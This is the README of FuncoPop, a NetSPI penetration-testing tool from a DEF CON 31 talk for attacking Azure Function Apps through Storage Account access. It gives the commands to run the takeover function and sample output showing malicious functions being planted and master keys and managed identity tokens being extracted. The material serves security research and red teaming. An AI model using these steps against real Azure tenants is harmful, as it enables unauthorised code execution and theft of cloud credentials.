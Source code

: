 ![FuncoPopLogo](https://notpayloads.blob.core.windows.net/images/FuncoPop-bg-final.png)
<br> 
[![licence badge]][licence] 
[![stars badge]][stars] 
[![forks badge]][forks] 
[![issues badge]][issues]

![Twitter Follow](https://img.shields.io/twitter/follow/kfosaaen.svg?style=social)
![Twitter Follow](https://img.shields.io/twitter/follow/thomas_elling.svg?style=social)

[licence badge]:https://img.shields.io/badge/license-New%20BSD-blue.svg
[stars badge]:https://img.shields.io/github/stars/NetSPI/FuncoPop.svg
[forks badge]:https://img.shields.io/github/forks/NetSPI/FuncoPop.svg
[issues badge]:https://img.shields.io/github/issues/NetSPI/FuncoPop.svg


[licence]:https://github.com/NetSPI/FuncoPop/blob/master/LICENSE.txt
[stars]:https://github.com/NetSPI/FuncoPop/stargazers
[forks]:https://github.com/NetSPI/FuncoPop/network
[issues]:https://github.com/NetSPI/FuncoPop/issues


### FuncoPop: PowerShell Tools for Attacking Azure Function Apps

FuncoPop includes functions and scripts that support attacking Azure Funtion Apps, primarily through exploiting Storage Account Access. In many environments, users are granted generous Storage Account permissions (Storage Account Contributor) in Azure RBAC, resulting in access to Storage Accounts that support Function Apps. This unintended cross-service access can give an attacker the ability to pivot through Storage Accounts to gain access to Function Apps. This access includes visibility into the Funtion App keys, ability to run code in the Function App containers, and the ability to access Managed Identities attached to the Function Apps.

These tools were initially released as part of the "What the Function: A Deep Dive into Azure Function App Security" talk from the DEF CON 31 Cloud Village.

### Author, Contributors, and License
* Author:
	* Thomas Elling ([@thomaselling](https://twitter.com/thomas_elling)), NetSPI
	* Karl Fosaaen ([@kfosaaen](https://twitter.com/kfosaaen)), NetSPI
* License: BSD 3-Clause
* Required Dependencies: Az PowerShell Module

### Tool Usage
There are two parts to this tool - Extraction and Decryption

## Key Extraction
In order to run the key extraction tool, you will need to have an authenticated Azure (Az) PowerShell login with some role that allows Read/Write access to a vulnerable Function App Storage Account. In Powershell, you will need to import the function in order to run it.

**Importing the function:**
	`Import-Module .\Invoke-AzFunctionAppTakeover.ps1`

Once imported, you can run the function:
  `Invoke-AzFunctionAppTakeover -Verbose`

```
VERBOSE: Currently logged in via Az PowerShell as kfosaaen@notatenant.com
VERBOSE: Use Connect-AzAccount to change your user
VERBOSE: Dumping Function App information for Selected Subscriptions...
VERBOSE:    Enumerating Function App attached Storage Accounts in the TestEnvironment subscription
VERBOSE:            Function App Storage Account Found - POCstorageAccount1 - mystarterapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - importantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - lessimportantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount3 - managedidentityfunction Function App
[Truncated]
VERBOSE:    15 Function App Storage Accounts Enumerated in the Subscription
VERBOSE:    Dumping Function App information for selected Storage Accounts
VERBOSE:            Determining Function App Language of the managedidentityfunction function in the POCstorageAccount3 Storage Account
VERBOSE:                    Reviewing the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET folder found in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger1 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger2 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            Attempting to add a new ASP.NET function to the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account
VERBOSE:                                    Creating the MFRgBWvsDIlkyfT folder in the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account and uploading files
VERBOSE:                                    Sleeping for 60 seconds before calling the new function
VERBOSE:                                    Calling the new function (until it stops 404-ing) to return the tokens and decryption key, this may take a while...
VERBOSE:                                            Avoid hitting ctrl+C to break out of this, you will need to manually remove the added Storage Account files in order to clean up
VERBOSE:                                    Removing the files from the Storage Account
VERBOSE:            Completed attacking the managedidentityfunction Function App in the managedidentityfunctiona16a File Share

FunctionApp        : managedidentityfunction
EncryptedMasterKey : bm9[Truncated]=
EncryptionKey      : 1B1[Truncated]9
ManagementToken    : eyJ[Truncated]g
VaultToken         : eyJ[Truncated]g
GraphToken         : eyJ[Truncated]Q

VERBOSE: All Function App / Storage Account attacks have completed
```

The function will prompt you to select a Subscription to attack. Once it has enumerated vulnerable Storage Accounts, you will be prompted with a list of accounts to attack. Select the ones you want to attack and the function will add malicious functions to the Storage Accounts, and attempt to execute them. These malicious functions will return the decryption key for the Function App Master Key, along with Managed Identity tokens (*if available).

Please note that the function supports PowerShell, ASP.NET, Python, and Node for payloads. At this time, attacking Java Function Apps is not supported, but may be added in the future.

Required Module to install:
* <a href="https://docs.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-3.6.1">Az</a>

## Key Decryption
The easiest way to decrypt the keys returned from the PowerShell function is to run the Function App that we created to do the decryption.
### Host your own Function App to decrypt the keys
Use the following Deploy button to deploy a function app to your Azure subscription that can be used to decrypt the extracted keys.

[![Deploy to Azure](https://github.com/Azure-Samples/function-app-arm-templates/blob/main/images/deploytoazure.png?raw=true)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FNetSPI%2FFuncoPop%2Fazuredeploy.json)

![image](https://github.com/NetSPI/FuncoPop/assets/2163397/3e4032b9-3614-422c-88ee-55516c1acdb1)



### Related Blogs
* <a href="https://blog.netspi.com/lateral-movement-azure-app-services/">Lateral Movement in Azure App Services</a>

### Presentations
* <a href="https://github.com/NetSPI/FuncoPop">What the Function: A Deep Dive into Azure Function App Security - DEF CON 31 - Cloud Village</a>
  - <a href="https://github.com/NetSPI/FuncoPop">Slides</a>
	
